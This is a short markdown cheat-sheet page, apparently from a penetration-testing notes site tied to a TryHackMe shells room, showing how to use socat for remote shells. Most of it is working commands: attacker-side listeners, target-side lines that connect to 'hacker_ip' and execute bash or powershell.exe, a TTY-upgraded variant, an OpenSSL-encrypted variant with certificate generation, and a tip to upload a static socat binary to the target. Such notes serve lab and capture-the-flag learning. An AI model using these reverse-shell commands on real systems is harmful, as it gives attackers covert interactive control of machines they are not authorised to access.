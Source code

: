 # socat

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

socat is a command similar to netcat. Similarely to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.

➡️ Add `-d -d` for debug information.
</div><div>

🔥 On the target, you can upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command/executable is most likely not present.
</div></div>

<hr class="sep-both">

## TCP shell - stdin

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port -
$ socat TCP-LISTEN:port STDOUT # same
```
</div><div>

*Linux/Windows Client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li"
PS> socat TCP:hacker_ip:port EXEC:powershell.exe,pipes
```
</div></div>

<hr class="sep-both">

## TCP shell - tty

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0
```
</div><div>

*Linux client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
</div></div>

<hr class="sep-both">

## Encrypted shell 🔥

<div class="row row-cols-md-2 mt-3"><div>

You first need to generate a certificate:

```ps
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
```
</div><div>

*Linux server*

```shell!
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
```

*Linux client*

```ps
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```
</div></div>